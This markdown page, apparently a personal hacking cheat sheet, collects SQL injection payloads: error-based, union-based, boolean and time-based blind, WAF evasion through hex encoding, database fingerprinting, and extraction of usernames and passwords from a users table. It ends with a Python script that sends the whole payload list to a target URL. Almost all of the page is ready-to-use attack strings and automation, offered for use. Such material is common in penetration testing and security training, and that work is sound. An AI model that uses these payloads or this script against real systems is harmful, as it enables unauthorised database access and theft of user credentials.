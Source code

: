 ```yaml
---
title: "Advanced SQLi Payloads and Techniques"
tags: ['Hacking', 'SQLi']
date: 2024-10-03
toc: true
unlisted: true
---
```


## Error-Based SQL Injection

### Advanced Error Payloads

```
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT version()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- -
```

## Union-Based Injection

### Determining the Number of Columns

```
' UNION SELECT NULL, NULL, NULL, NULL -- 
```

### Extracting Data

```
' UNION SELECT username, password, NULL, NULL FROM users -- 
```

## Blind SQL Injection

### Boolean-Based Blind

```
' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE (SELECT 1 UNION SELECT 2) END) -- 
```

### Time-Based Blind

```
' AND IF(1=1, SLEEP(5), 0) -- 
```

## Second-Order SQL Injection

### Injection in Profile Information

Modify data stored in one place to affect queries executed elsewhere.

## Advanced Union-Based SQL Injection

### Union-Based Error Handling

Generate detailed error messages by crafting complex payloads:

```
' UNION SELECT 1, version(), database(), user() FROM dual WHERE 1=CAST((SELECT COUNT(*) FROM information_schema.tables) AS INT) --
```

### Union with Hex Encoding

Encode parts of your query to evade WAFs:

```
' UNION SELECT 1, 0x62656e6368, 0x70617373776f7264, user() --
```

### Multi-Query Union Injection

Leverage multiple queries to extract more data:

```
' UNION SELECT 1, database(), (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), user() --
```

### Union-Based Cross Database Extraction

Combine data from different databases (when supported):

```
' UNION SELECT 1, (SELECT column_name FROM db1.table1 LIMIT 1), (SELECT column_name FROM db2.table2 LIMIT 1), user() --
```

## Advanced Boolean-Based SQL Injection

### Time-Based Boolean Injection with Conditional Responses

Use time delays to infer data based on conditional responses:

```
' AND IF((SELECT LENGTH(database()))>5, SLEEP(5), 0) --
```

### Nested Boolean Injections

Nest conditions to extract specific data:

```
' AND IF((SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1), 1, 1))='a', SLEEP(5), 0) --
```

### Error-Based Boolean Injection

Force errors conditionally to reveal information:

```
' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables), 1) --
```

### Using Bitwise Operations

Use bitwise operations for more obfuscation and complexity:

```
' AND IF((SELECT ASCII(SUBSTRING((SELECT database()),1,1))) & 1, SLEEP(5), 0) --
```

## Combining Techniques

### Example: Union with Time-Based Injection

Create a payload that uses both union and time-based injections:

```
' UNION SELECT IF((SELECT LENGTH(database()))>5, SLEEP(5), 0), 1, user(), 4 --
```

### Example: Nested Union and Boolean Injection

Combine nested boolean conditions with union-based data extraction:

```
' UNION SELECT 1, IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables LIMIT 1), 1), 3, 4 --
```

## Automating with Custom Scripts

### Example: Python Script for Advanced Union Injection

```py
import requests

url = "http://example.com/vulnerable.php"
payloads = [
    # Advanced Union-Based Injections
    "' UNION SELECT 1, version(), database(), user() FROM dual WHERE 1=CAST((SELECT COUNT(*) FROM information_schema.tables) AS INT) -- ",
    "' UNION SELECT 1, 0x62656e6368, 0x70617373776f7264, user() -- ",
    "' UNION SELECT 1, database(), (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), user() -- ",
    "' UNION SELECT 1, (SELECT column_name FROM db1.table1 LIMIT 1), (SELECT column_name FROM db2.table2 LIMIT 1), user() -- ",
    # Advanced Boolean-Based Injections
    "' AND IF((SELECT LENGTH(database()))>5, SLEEP(5), 0) -- ",
    "' AND IF((SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1), 1, 1))='a', SLEEP(5), 0) -- ",
    "' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables), 1) -- ",
    "' AND IF((SELECT ASCII(SUBSTRING((SELECT database()),1,1))) & 1, SLEEP(5), 0) -- ",
    # Combined Techniques
    "' UNION SELECT IF((SELECT LENGTH(database()))>5, SLEEP(5), 0), 1, user(), 4 -- ",
    "' UNION SELECT 1, IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables LIMIT 1), 1), 3, 4 -- ",
]

for payload in payloads:
    response = requests.get(url, params={"id": payload})
    print(f"Payload: {payload}")
    print(f"Response: {response.text}\n")
```

## Advanced Enumeration

### Database Fingerprinting

#### MySQL

```
' OR 1=1 AND @@version -- 
```

#### PostgreSQL

```
' OR 1=1 AND version() -- 
```

#### MSSQL

```
' OR 1=1 AND @@version -- 
```

### Column Enumeration

Determine the Number of Columns:

```
' ORDER BY 1 -- 
' ORDER BY 2 -- 
```

Extract Column Names:

```
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' -- 
```

### Advanced Data Extraction

Combine Multiple Rows into a Single Output:

```
' UNION SELECT GROUP_CONCAT(username, 0x3a, password) FROM users -- 
```
